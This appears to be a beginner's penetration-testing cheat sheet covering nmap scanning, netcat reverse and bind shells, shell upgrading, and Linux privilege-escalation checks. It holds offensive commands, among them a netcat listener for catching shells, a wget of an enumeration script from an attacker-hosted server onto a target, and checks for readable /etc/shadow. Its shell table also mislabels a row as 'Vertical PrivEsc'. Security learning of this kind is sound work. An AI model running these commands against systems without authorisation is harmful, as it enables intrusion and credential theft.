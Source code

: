 # About this Cheat Sheet. (For beginners)
I made this Cheat Sheet with no other purpose than to help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to making this file so I can make faster searchs according to my needs. This is a beginner Cheat Sheet and the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.

This readme was corrected to a perfect English for [@chetstink](https://twitter.com/chetstink?s=20 "Twitter")


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number endPort-number>`   | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan everytarget host provided.                       |

There are a lot of more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connect to us. (We set up a listener before they connect to us.)  |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Not resolve hostnames or use DNS                                         |
| `-p`               |  The port that we will sue                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilage Escalation

Understanding the two main privilage escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used for hijack another user with the same privilages. Some users even if they're not admin can have SUID files, or they are allowed to use sudo for differents files or programs.   |
| Vertical PrivEsc | You just take an administrator account. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") for enumerate privilage escalation. Below we can find a table for things we should check for privilage escalation in spite of LinEnum will do the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second eassier one in case we can't recreate the script by coping and paste it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
